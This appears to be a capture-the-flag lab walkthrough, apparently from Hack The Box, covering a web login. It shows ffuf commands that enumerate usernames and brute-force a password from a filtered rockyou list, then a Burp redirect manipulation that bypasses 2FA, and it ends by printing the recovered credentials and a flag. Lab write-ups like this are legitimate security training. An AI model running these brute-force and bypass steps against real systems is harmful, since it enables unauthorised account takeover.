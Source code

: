 ```yaml
---
sticker: emoji//1faaa
---
```

## Scenario

You are tasked to perform a security assessment of a client's web application. For the assessment, the client has not provided you with credentials. Apply what you have learned in this module to obtain the flag.

![](../images/Pasted%20image%2020250215140214.png)

Let's begin by checking the website:

![](../images/Pasted%20image%2020250215140227.png)

We have a login functionality, let's check it out:

![](../images/Pasted%20image%2020250215140248.png)

We can begin by registering a new account and checking the behavior in burp:

```ad-note
`test`:`test`
```

If we do those credentials, we get the following:


![](../images/Pasted%20image%2020250215140815.png)


Now we know the password policy, it goes like this:

```ad-important
Password does not meet our password policy:
    Contains at least one digit
    Contains at least one lower-case character
    Contains at least one upper-case character
    Contains NO special characters
    Is exactly 12 characters long
```

Nice, let's register an account that goes like that:

```ad-note
`test`:`Passw0rd1123`
```

We can now test how it looks like when a valid username goes through the application:

![](../images/Pasted%20image%2020250215155348.png)

We get `Invalid credentials`, what if we use an invalid user:

![](../images/Pasted%20image%2020250215155424.png)

Now we get another error `Unknown username or password.`, once we know this, we can use ffuf in order to fuzz for valid usernames:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username or password." -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username or password." -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.157:40800/login.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=test
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Unknown username or password.
________________________________________________

gladys                  [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 196ms]
```

We got a valid username:

```
gladys
```

Now, with the valid username, we can try to brute-force the password creating a custom wordlist matching the password policy, let's grep the `rockyou.txt` wordlist:

```
grep -P '^(?=.*[0-9])(?=.*[a-z])(?=.*[A-Z])[A-Za-z0-9]{12}$' /usr/share/wordlists/rockyou.txt > filtered_rockyou.txt
```

This will filter `rockyou` wordlist to match the password policy, now let's use ffuf:


```
ffuf -w filtered_rockyou.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials" -ic -c -t 200
```


After a while, we get this:

```
ffuf -w filtered_rockyou.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.157:40800/login.php
 :: Wordlist         : FUZZ: /home/samsepiol/filtered_rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=gladys&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid credentials
________________________________________________

dWinaldasD13            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 156ms]
```

We got credentials:

```ad-note
`gladys`:`dWinaldasD13`
```

If we try to log in, we can see the following:

![](../images/Pasted%20image%2020250215160432.png)

We are redirected to `/2fa.php`, we need to bypass it, let's do the following:

Let's start by sending a request and checking the behavior:

![](../images/Pasted%20image%2020250215160533.png)

If we send an invalid OTP, we get `Invalid OTP` error, knowing this, let's create a list of OTPs and fuzz:

```
seq -w 0 9999 > tokens.txt
```

```
ffuf -w tokens.txt -u http://94.237.55.157:40800/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=k0p7io2i4ucilmknkgt9m2ukd5" -d "otp=FUZZ" -fr "Invalid OTP" -ic -c -t 200
```

After a while, we are unable to get any OTP by fuzzing, which means, this is not the intended path to take, that's when logging into our `test` account is truly helpful, if we log in, we can see the following:

![](../images/Pasted%20image%2020250215164723.png)

We are redirected to `/profile.php` instead of `/2fa.php`, that means that if we're able to change the `Location` to `/profile.php` on glady's account, we'd be able to bypass the 2fa code requirement, let's do it:

![](../images/Pasted%20image%2020250215164842.png)

`Do intercept -> Response to this request`:

![](../images/Pasted%20image%2020250215164923.png)

Now, change `Location` to `/profile.php`:

![](../images/Pasted%20image%2020250215165100.png)

Forward and `Do intercept -> Response to this request` again:

![](../images/Pasted%20image%2020250215165141.png)

We get a GET request, we need to intercept this one too and change status code to `200` and `location` to `/profile.php` again:

![](../images/Pasted%20image%2020250215165225.png)

After forwarding the request, this happens:

![](../images/Pasted%20image%2020250215165242.png)

We get access to glady's account and got the flag:

```
HTB{d86115e037388d0fa29280b737fd9171} 
```


![](../images/Pasted%20image%2020250215165319.png)



